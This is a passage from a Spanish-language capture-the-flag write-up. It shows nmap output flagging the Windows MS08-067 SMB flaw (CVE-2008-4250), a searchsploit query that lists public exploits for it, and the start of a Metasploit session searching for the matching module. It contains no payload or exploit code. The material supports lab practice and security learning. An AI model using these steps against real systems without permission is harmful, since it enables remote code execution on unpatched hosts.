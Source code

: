 ```sh
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-054: false

Nmap done: 1 IP address (1 host up) scanned in 5.39 seconds
```

Parece que tengo dos vulnerabilidades que me permitirían ejecutar código en la máquina.

## Explotación

Usaré metaexploit para la vulnerabilidad ms08-067. Primero veamos si se encuentra disponible. Filtraré por la **cve** que veo por arriba:

```sh
❯ searchsploit --cve '2008-4250'
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                        |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Microsoft Windows - 'NetAPI32.dll' Code Execution (Python) (MS08-067)                                                                                 | windows/remote/40279.py
Microsoft Windows Server - Code Execution (MS08-067)                                                                                                  | windows/remote/7104.c
Microsoft Windows Server - Code Execution (PoC) (MS08-067)                                                                                            | windows/dos/6824.txt
Microsoft Windows Server - Service Relative Path Stack Corruption (MS08-067) (Metasploit)                                                             | windows/remote/16362.rb
```

Tiene que ser el cuarto. Entro en la consola de metaexploit.

```sh
❯ msfconsole
                                                  
# cowsay++
 ____________
< metasploit >
 ------------
       \   ,__,
        \  (oo)____
           (__)    )\
              ||--|| *


       =[ metasploit v6.3.5-dev                           ]
+ -- --=[ 2296 exploits - 1202 auxiliary - 410 post       ]
+ -- --=[ 965 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Display the Framework log using the 
log command, learn more with help log
Metasploit Documentation: https://docs.metasploit.com/

[msf](Jobs:0 Agents:0) >> search cve:2008-4250

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
```